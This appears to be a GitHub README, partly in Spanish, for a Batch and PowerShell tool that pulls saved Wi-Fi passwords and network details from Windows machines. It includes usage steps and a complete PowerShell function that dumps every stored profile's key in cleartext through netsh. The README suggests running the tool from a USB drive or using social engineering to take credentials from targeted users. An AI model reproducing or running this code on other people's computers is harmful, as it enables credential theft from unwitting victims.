 # Wi-Fi

![](https://1.bp.blogspot.com/-NZFmbAF5_6U/WfMx3j17FEI/AAAAAAAAId4/uDLKER2aeV8mPgUVfuawP3_5adAj5kg5gCLcBGAs/s1600/Screenshot_4.png)

The program is developed using Batch and PowerShell, designed to extract passwords and network information stored on a computer, either manually or automatically. It specifically targets passwords saved on the system. The program can be stored on a USB drive and executed directly from it, or social engineering techniques can be employed to retrieve the credentials from targeted users...

- https://lpericena.blogspot.com/2017/10/wiffi.html
- Pasos a seguir
```
1. Download the program  
2. Run the program  
3. Select Option 1: Retrieve wireless network information  
4. Select Option 2: Extract Wi-Fi passwords manually  
5. Select Option 3: Extract Wi-Fi passwords automatically  
6. Follow the prompts until the process is complete  
```
### Código Powershell
- Autor : https://github.com/H3LL0WORLD
```
Function Get-WLAN_Profiles {
	param (
		[ValidateSet('es-ES','en-EN')]
		$LANGUAGE = $Host.CurrentUICulture.Name
	)
	$LANGUAGES = @{
		'es-ES' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'Perfil de todos los usuarios'
			'profile_not_found_text' = 'No se encuentra el perfil'
			'ssid_name_text' 		 = 'Nombre de SSID'
			'network_type_text' 	 = 'Tipo de red'
			'authentication_text'	 = 'Autenticación'
			'encryption_text'	 	 = 'Cifrado'
			'key_text' 				 = 'Contenido de la clave'
		}
		'en-EN' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'All User Profile'
			'profile_not_found_text' = 'Profile not found'
			'ssid_name_text' 		 = 'SSID name'
			'network_type_text' 	 = 'Network Type'
			'authentication_text'	 = 'Authentication'
			'encryption_text'	 	 = 'Cipher'
			'key_text' 				 = 'Key Content'
		}
	}
	$LANG = $LANGUAGES."$LANGUAGE"

	function getValueByName ( $inputText, $nameString ) {
		$value = "";
		if ([regex]::IsMatch($inputText,"\b$nameString\b","IgnoreCase")) {
			$value = ([regex]::Replace($inputText,"^[^:]*: ","")); 
		}
		return $value.Trim();
	}

	$Profiles = @()
	netsh wlan show profiles | % {
		$profile = getValueByName $_ $LANG.'user_profiles_text';
		if ($profile) {
			$Profiles += $profile
		}
	}

	$WLAN_Profiles = @()
	$rowNumber = -1;
	$Profiles | % {
		$wlan_Profile = netsh wlan show profile $_ key=clear
		if ($wlan_Profile.Contains($LANG.'profile_not_found_text')){
			return
		}
		$InterfaceName = $null
		$wlan_Profile | % {
			if (!($InterfaceName)) {
				$InterfaceName = getValueByName $_ $LANG.'ssid_name_text'
				$InterfaceName = $InterfaceName.Trim('"')
							
				if ($InterfaceName) {
					$row = New-Object PSObject -Property @{
						InterfaceName = $InterfaceName
						SSID = $InterfaceName
						NetworkType=""
						Authentication=""
						Encryption=""
						Key=""
					}
					$rowNumber+=1
					$WLAN_Profiles += $row
					#$WLAN_Profiles | ft
					return
				}
			}
			if (!($WLAN_Profiles[$rowNumber].NetworkType)) {
				$NetworkType = getValueByName $_ $LANG.'network_type_text';
				if ($NetworkType) {
					  $WLAN_Profiles[$rowNumber].NetworkType = $NetworkType
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Authentication)) {
				$Authentication = getValueByName $_ $LANG.'authentication_text';
				if ($Authentication) {
					  $WLAN_Profiles[$rowNumber].Authentication = $Authentication
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Encryption)) {
				$Encryption = getValueByName $_ $LANG.'encryption_text';
				if ($Encryption) {
					  $WLAN_Profiles[$rowNumber].Encryption = $Encryption
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Key)) {
				$Key = getValueByName $_ $LANG.'key_text';
				if ($Key) {
					  $WLAN_Profiles[$rowNumber].Key = $Key
				}
			}
		}
	}

	if ($WLAN_Profiles.Count -gt 0) {
		'Total WLAN_Profiles: ' + $WLAN_Profiles.Count
		<#return#> $WLAN_Profiles | Select-Object 		   SSID,
											 Authentication,
														Key,
												 Encryption,
												NetworkType
	} else {
		'No WLAN Profiles found!'
	}
}

```

## Expressions of gratitude
* Well, I hope it is useful to you. If you have any questions, you can contact me at my social networks:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🐤 twitter             https://twitter.com/LPericena

* Thank you
---
Por [Pericena](https://github.com/Pericena) Donación paypal
https://www.paypal.com/paypalme/lpericena
